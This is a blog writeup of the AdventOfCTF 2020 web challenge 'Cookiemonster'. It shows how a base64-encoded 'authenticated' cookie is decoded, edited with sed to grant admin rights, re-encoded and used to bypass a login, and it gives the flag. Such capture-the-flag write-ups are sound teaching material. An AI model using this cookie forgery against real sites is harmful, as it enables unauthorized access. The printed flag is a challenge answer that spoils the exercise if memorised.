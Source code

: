 +++
author = "Maik de Kruif"
title = "Cookiemonster"
subtitle = "Challenge 2 - AdventOfCTF"
date = 2020-12-02T17:30:25+01:00
description = "A writeup for challenge 2 of AdventOfCTF."
cover = "img/writeups/adventofctf/2020/948b1eb046c96865a05808660ee99e10.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "cookies",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
+++

- Points: 200

## Description

For the 2nd challenge you will need to bypass the login mechanism.

Visit <https://02.adventofctf.com> to start the challenge.

## Solution

When opening the website we're provided with a login form. If we fill in the form with random data, we're greeted with some text that says a guest cannot access the flag.

After trying several things, I opened the devtools to have a look at the cookies. Here we find a cookie with the name `authenticated`:

```cookie
authenticated=eyJndWVzdCI6InRydWUiLCJhZG1pbiI6ImZhbHNlIn0%3D
```

The value of this cookie looks like a base64 encoded string so lets try to decode it:

_Note: in a url encoded string, the text `%3D` means a `=`._

```bash
> echo "eyJndWVzdCI6InRydWUiLCJhZG1pbiI6ImZhbHNlIn0=" | base64 -d
{"guest":"true","admin":"false"}%
```

The result is some JSON data which specifies whether we are a guest or an admin.

Normally, we can easily alter the string to say we're an admin, but this time there is some weird non-printable character at the end. This means we can't easily modify it while still having the correct response. To circumvent this, I'll use `sed` to replace the string while keeping the non-printable character:

```bash
> echo "eyJndWVzdCI6InRydWUiLCJhZG1pbiI6ImZhbHNlIn0=" | base64 -d | sed 's/"guest":"true"/"guest":"false"/g' | sed 's/"admin":"false"/"admin":"true"/g' | base64
eyJndWVzdCI6ImZhbHNlIiwiYWRtaW4iOiJ0cnVlIn0=
```

If we put this string back into the cookie and refresh the page we get the flag: `NOVI{cookies_are_bad_for_auth}`.

This flag can then be submitted for the [challenge](https://ctfd.adventofctf.com/challenges#2-3).
